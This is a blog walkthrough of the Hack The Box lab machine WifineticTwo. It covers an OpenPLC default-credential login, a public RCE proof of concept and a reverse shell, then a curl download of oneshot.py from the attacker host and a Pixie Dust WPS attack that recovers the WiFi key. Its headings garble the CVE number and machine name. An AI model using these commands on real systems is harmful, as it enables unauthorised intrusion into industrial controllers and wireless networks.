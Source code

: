 ```yaml
---
layout: default
title : brenda - headless HTB Writeup
---
```



![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(180).png)

`WifineticTwo` is a medium machine in HTB.

### Recon
### Nmap scan

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20().png)

Added target ip to /etc/hosts using these commands:

`echo "10.10.11.7 wifinetictwo.htb" | sudo tee -a /etc/hosts`

I then opened the website `wifinetictwo.hb:8080/`. And got this!

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(151).png)

I searched online for the default credentials for OpenPLC and used them to log in.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(162).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(154).png)

The OpenPLC webserver runs PLC programs from the OpenPLC editor and allows configuration of runtime parameters. Currently, the dashboard shows the loaded file is blank_program.st and the server is stopped.

### CVE-2021-31360

If you search for OpenPLC vulnerabilities, you'll find [CVE-2021-31630](https://www.cvedetails.com/cve/CVE-2021-31630) and this proof of concept: [exploit-db.com/exploits/49803](https://www.exploit-db.com/exploits/49803).

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(152).png)


### User Flag

The POC enables RCE against the host using user credentials. Before running it, update the compile_program file name in the POC to blank_program.st, matching the currently loaded file on the host OpenPLC.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(155).png)

Start a listener and execute the exploit.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(156).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(157).png)

And that's how I obtained the user flag!

### Privilege Escalation
### Root Flag

With root access on this machine, we're unable to access the root.txt flag, indicating the necessity to pivot to another system. To facilitate this, we'll tweak configurations here. 
Given the machine's name, it likely relates to wireless network settings. 
Let's enumerate network interfaces.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(159).png)

Inspect the configuration of the wireless network interface wlan0.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(160).png)

Initiate a scan for available WiFi networks.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(161).png)

We've spotted a WiFi network named `plcrouter` nearby, featuring enabled WPS mode with a BSSID of `02:00:00:00:01:00`.

Since WPS is active, we'll attempt a OneShot attack using a Python script available [here](https://github.com/kimocoder/OneShot). This attack, detailed in the provided tutorials: [here](https://en.kali.tools/?p=1002) and more [here](https://miloserdov.org/?p=3393), specifically targets Pixie Dust vulnerabilities.

First, clone the oneshot.py file to your machine. Then, start a server on your machine using the command

`python3 -m http.server 8080`

in the directory containing the oneshot.py file. Next, on the target machine, use the command 

`curl 10.10.14.30/oneshot.py > oneshot.py`

to download the file from your machine to the target machine.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(165).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(166).png)


Utilize the oneshot.py script to initiate a Pixie Dust attack, following the tutorials outlined in the provided links.
Run the command:

`python3 ./oneshot.py -i wlan0 -b 02:00:00:00:01:00 -K`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(167).png)

The script retrieves the WPA-PSK key. Connect to the WiFi from the command line as instructed in the provided links.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(168).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(172).png)

Even though we've successfully associated with the WiFi AP, we haven't received an IP address from DHCP. Assign yourself an IP address within a typical private class C network, using a subnet mask of 255.255.255.0.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(171).png)

Search for instructions on connecting to WiFi using systemd and wpa_supplicant, and also obtaining a gateway using the provided link: [Connecting to WiFi network using systemd and wpa_supplicant](https://wiki.somlabs.com/index.php/Connecting_to_WiFi_network_using_systemd_and_wpa-supplicant).

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(175).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/wifinetictwo/Screenshot%20(176).png)



























































